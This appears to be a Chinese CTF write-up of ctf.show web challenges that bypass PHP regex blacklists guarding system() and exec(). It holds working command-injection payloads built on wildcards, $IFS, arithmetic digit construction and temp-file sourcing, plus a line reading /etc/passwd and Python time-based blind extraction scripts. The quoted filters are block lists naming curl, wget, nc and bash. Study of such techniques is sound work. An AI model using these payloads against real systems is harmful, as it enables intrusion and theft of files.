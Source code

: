 ## **不可字符分割绕过**
```
$c=$_GET['c'];
if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
```
若flag在当前目录的flag.php中
下面均可
```
?c=vi$IFS????????   //类似vi flag.php F12可以看到源码
?c=uniq$IFS????????
?c=uniq${IFS}????????
?c=/bin/c??$IFS????????    //在bin目录中读取c??  其实就是cat了
?c=grep${IFS}'{'${IFS}fl???php
（在 fl???php匹配到的文件中，查找含有{的文件，并打印出包含 { 的这一行）




cmd=/bin/cat%20/etc/passwd
cmd=/usr/bin/find%20/%20-name%20flag*
```

^
## **无字符绕过**
```
if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    } 
```
若flag在当前目录的flag.php中
/bin/base64 flag.php
```
?c=/???/????64 ????.???
```
/usr/bin/bzip2 flag.php
压缩后访问/flag.php.bz2下载获得flag
```
?c=/???/???/????2 ????.???
```


^
## **无数字创数字**
```
//已知flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}
```
我们要绕过正则变一个36出来
![](.topwrite/assets/image_1732956831826.png)
```
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(()))) ))))
```


^
## **没有过滤.的php临时文件命令执行**
web56
```
// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}
```
因为没有过滤'.'，而点命令在linux中是source的缩写，通过点命令，我们可以在没有执行权限的情况下执行sh命令。
原理是通过POST上传一个文件，文件内容是要执行的命令，并且同时点命令执行该文件，形成条件竞争。这个文件默认保存在/tmp/phpxxxx路径下，所以可以通过/???/????????[@-[]来来构成这个路径，[@-[]为匹配ascii码范围在@-[的字（A，Z被屏蔽，所以范围大一位），之所以用[@-[]是因为直接用/???/?????????匹配到的其他文件都是小写字母，只有php临时生成的文件才包含大写字母。就算这样，也不一定能够准确地匹配到我们的上传文件，所以可能要多次刷新。

使用postman或其他，POST上传临时文件，文件名任意
```
#!/bin/sh
ls
```
同时传参
```
?c=.%20/???/????????[@-[]
```
最终数据包如下：
```
POST /?c=.%20/???/????????[@-[] HTTP/1.1
Host: 13cf7637-c8fc-4c8e-901d-782b7a0c99fd.challenge.ctf.show
Accept-Encoding: gzip, deflate, br
User-Agent: PostmanRuntime/7.42.0
Content-Type: multipart/form-data; boundary=--------------------------974334232652972648027191
Accept: */*
Cache-Control: no-cache
Postman-Token: 12305bc1-76a8-4288-a75d-266bbc6679d3
Content-Length: 220

----------------------------974334232652972648027191
Content-Disposition: form-data; name="filename"; filename="1.txt"
Content-Type: text/plain

#!/bin/sh
cat flag.php
----------------------------974334232652972648027191--
```












^
## **延时盲注**
exec没有回显，并且过滤了. curl nc 写文件。
```
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
```
测试ls;sleep 3可以延时。
延时根目录/
```
import requests
import time
import string
str=string.ascii_letters+string.digits+'_~'
result=""
for i in range(1,10):#行
    key=0
    for j in range(1,15):#列
        if key==1:
            break
        for n in str:
           #awk 'NR=={0}'逐行输出获取
           #cut -c {1} 截取单个字符
            payload="if [ `ls /|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i,j,n)
            #print(payload)
            url="http://873b2081-3b04-4517-a10d-dcb44382c44c.challenge.ctf.show/?c="+payload
            try:
                requests.get(url,timeout=(2.5,2.5))
            except:
                result=result+n
                print(result)
                break
            if n=='~':
                key=1
                result+=" "
#找到flag：/f149_15_h3r3
```
延时flag文件中内容
```
import requests
import time
import string
str=string.digits+string.ascii_lowercase+"-"
result=""
key=0
for j in range(1,45):
    print(j)
    if key==1:
        break
    for n in str:
        payload="if [ `cat /f149_15_h3r3|cut -c {0}` == {1} ];then sleep 3;fi".format(j,n)
        #print(payload)
        url="http://b76bf2c7-70e7-401f-a490-f5963e74b581.challenge.ctf.show/?c="+payload
        try:
            requests.get(url,timeout=(2.5,2.5))
        except:
            result=result+n
            print(result)
            break
```
